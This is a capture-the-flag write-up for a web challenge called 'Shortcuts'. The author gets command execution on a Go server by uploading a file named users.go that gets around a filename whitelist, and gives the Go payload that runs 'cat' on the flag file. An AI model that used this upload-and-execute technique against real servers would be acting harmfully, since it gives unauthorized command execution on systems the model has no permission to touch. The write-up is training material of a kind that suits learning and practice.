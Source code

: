 # Shortcuts (465pts) #

![TASK](https://imgur.com/eBGWBx5.png)

We are given a simple web app written in Golang where we have shortcuts for some commands executed on the server, after digging around we can notice that the server is returning the output of go run FILE.go ( by having a look at processes)
so if we upload our go script that executes any commands for us we can achieve a command execution :D But that's not the case if we try to upload any file it won't be executed , i think that there's a whitelist of the accepted filenames.

If we try to execute the users shortcuts we will get the error below , so if we upload a file named users.go and then click users, our script will be executed and we will bypass this whitelist 

![IMAGE](https://imgur.com/bjkx19l.png)

After uploading it :

![SUCCESS](https://imgur.com/Dzm006Q.png)

The content of **users.go** file :

```go

package main

import (
    "fmt"
    "os/exec"
)

func execute() {

    out, err := exec.Command("cat","/home/tom/flag.txt").Output()

    if err != nil {
        fmt.Printf("%s", err)
    }

    fmt.Println("Command Successfully Executed")
    output := string(out[:])
    fmt.Println(output)
}

func main() {
        execute()

}

```
